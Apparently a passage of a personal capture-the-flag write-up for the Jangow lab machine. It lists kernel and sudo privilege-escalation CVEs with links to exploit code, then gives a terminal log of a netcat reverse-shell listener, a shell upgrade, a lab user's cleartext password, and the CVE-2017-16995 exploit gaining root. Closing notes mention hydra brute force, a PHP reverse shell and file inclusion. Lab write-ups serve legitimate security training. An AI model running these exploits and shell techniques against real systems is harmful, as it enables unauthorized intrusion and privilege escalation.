   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Exposure: less probable
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Exposure: less probable
   Tags: RHEL=6,RHEL=7{kernel:3.10.0-514.21.2|3.10.0-514.26.1}
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Exposure: less probable
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Exposure: less probable
   Tags: ubuntu=14.04,fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2
```


---

### Copiled exploit


# `./CVE-2017-16995`


#### One more time


```sh
#Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Export
export TERM=xterm
# Change User
su jangow01


└─$ nc -lvnp 443        
listening on [any] 443 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.118] 42396
bash: cannot set terminal process group (2729): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jangow01:/var/www/html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'                   
www-data@jangow01:/var/www/html/site$ export TERM=xterm
export TERM=xterm
www-data@jangow01:/var/www/html/site$ whoami
whoami
www-data
www-data@jangow01:/var/www/html/site$ su jangow01
su jangow01
Password: abygurl69

# Compile the file
gcc 45010.c -o cve-2017-16995

# Run the file
./cve-2017-16995

jangow01@jangow01:~$ ./CVE-2017-16995
./CVE-2017-16995
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800378e7c00
[*] Leaking sock struct from ffff88003793cb40
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88003af4a480
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88003af4a480
[*] credentials patched, launching shell...
# whoami
whoami
root
# cd /root
cd /root
# ls -al
ls -al
total 36
drwx------  4 root root 4096 Out 31  2021 .
drwxr-xr-x 24 root root 4096 Jun 10  2021 ..
-rw-------  1 root root 3958 Nov  3  2021 .bash_history
-rw-r--r--  1 root root 3106 Out 22  2015 .bashrc
drwx------  2 root root 4096 Out 31  2021 .cache
drwxr-xr-x  2 root root 4096 Jun 10  2021 .nano
-rw-r--r--  1 root root  148 Ago 17  2015 .profile
-rw-r--r--  1 root root 2439 Out 31  2021 proof.txt
-rw-r--r--  1 root root  211 Jun 10  2021 .wget-hsts
# cat proof.txt
cat proof.txt
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&                          
                       @  @@@@@@@@@@@@@@@&#   #@@@@@@@@&(.    /&@@@@@@@@@@                          
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@                          
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@                          
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&                    
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&                    
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&                    
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@                   
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @                   
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@                  
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@                 
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@                 
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@                 
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@                  
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@                  
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@                   
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@                    
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&                    
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&                    
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&                    
                       @  @@@@@@@@&               JANGOW               &@@@                          
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&                          
                                     &&&@@@@&%       &/    (&&@@@&&&                                
                                       (((((((((((((((((((((((((((((


da39a3ee5e6b4b0d3255bfef95601890afd80709
# 


```


---
---


## STONKS 📈
- [a] Username: `desafio02`
- [a] The Real Username: `jangow01`
- [a] Kode: `abygurl69`
- [b] IP - 192.168.56.118
	- [b] `sudo netdiscover -i eth1`
- [ ] Mere Info - nmap
	- [a] Porte
		- [ ] 21 - FTP
			- [x] hydra
			- [x] desafio02 - abygurl69
			There is a bad connection on the server config? Read the .backup file, which has the real username jangow01
			- [b] `jangow01 - abygurl69`
				- [b] jangow01 folder ``cd /home``
				- [a] Download files
					- [a] user.txt - d41d8cd98f00b204e9800998ecf8427e
			- [ ] php-reverse-shell.php
		      
		- [ ] 81 - HTTP
			- [ ] gobuster
				- [ ] site
				- [ ] server-status
			- [ ] dirb
				- [ ] site/wordpress
			- [ ] Local File Inclusion Vulnerability
				- [a] cat files 🐈🐈‍⬛


---


[](https://youtu.be/4f_CQ0tyQRw)
